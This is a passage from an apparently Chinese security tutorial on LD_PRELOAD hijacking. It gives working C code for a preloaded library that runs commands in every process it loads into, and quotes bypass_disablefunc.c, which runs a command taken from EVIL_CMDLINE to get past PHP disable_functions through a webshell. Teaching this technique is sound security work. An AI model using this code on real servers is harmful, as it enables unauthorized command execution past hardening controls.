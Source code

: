 如下，我们可以直接劫持系统命令 `ls`：

- hook_ls.c

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    unsetenv("LD_PRELOAD");
    system("id");
}
```

编译并测试 `ls` 命令：

```
[root@vuln /tmp]# touch hook_ls.c
[root@vuln /tmp]# vim hook_ls.c
[root@vuln /tmp]# gcc -shared -fPIC hook_ls.c -o hook_ls.so
[root@vuln /tmp]# LD_PRELOAD=/tmp/hook_ls.so ls
uid=0(root) gid=0(root) 组=0(root)
hook_ls.c   hook_strcmp.c   hook_strncmp.c   passcheck    systemd-private-a83e169502574670adf290d48faa3b1e-apache2.service-0ngAZl
hook_ls.so  hook_strcmp.so  hook_strncmp.so  passcheck.c
```

如上图，成功劫持，并且不光劫持了 `ls`，只要启动了进程便会进行劫持。

[yangyangwithgnu](https://github.com/yangyangwithgnu) 师傅根据这个思路创建了 [bypass_disablefunc_via_LD_PRELOAD ](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)这个项目，项目中有这几个关键文件：

- bypass_disablefunc.php：一个用来执行命令的 webshell。
- bypass_disablefunc_x64.so 或 bypass_disablefunc_x86.so：用来加载并执行命令的动态链接库文件，分为 64 位的和 32 位的。
- bypass_disablefunc.c：用来编译生成上面的动态链接库文件。

bypass_disablefunc.c的源码如下：

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```
